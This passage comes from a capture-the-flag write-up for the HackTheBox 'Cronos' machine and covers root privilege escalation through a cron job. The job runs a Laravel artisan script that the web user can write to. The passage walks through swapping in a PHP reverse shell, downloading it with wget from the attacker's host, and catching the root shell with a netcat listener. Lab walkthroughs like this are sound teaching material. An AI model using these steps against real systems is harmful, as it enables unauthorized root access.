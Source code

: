 The results are fairly long, but below is the section on `cron` jobs

![](/assets/htb-cronos/lse_cron.png)

### Writing our own artisan script

As we can see from the crontab output, that cron runs the `artisan` script as root. We can also see that the file is owned by `www-data`, which means we can simply write our own, rename it to `artisan`, and we'll be able to grab a shell as `root`.

We can use the pre-built [PHP Reverse Shell from Pentest Monkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell), rename it to `artisan`, and place it on the target in the `/var/www/laravel` folder to replace the existing script.

First, copy the file locally, and rename it `artisan`. I used `cp /opt/php-reverse-shell.php artisan`, since I have the file pre-built in my `/opt` directory.

Next, edit the file to modify the `$ip` variable to match our local machine.

Now you can go back to your remote shell, and use `wget http://10.10.14.35:8000/artisan` to download the file.

![](/assets/htb-cronos/root_wget.png)

Now just open a listener with `nc -lvnp 1234`, and wait to capture the `root` shell when the cron job runs every minute.

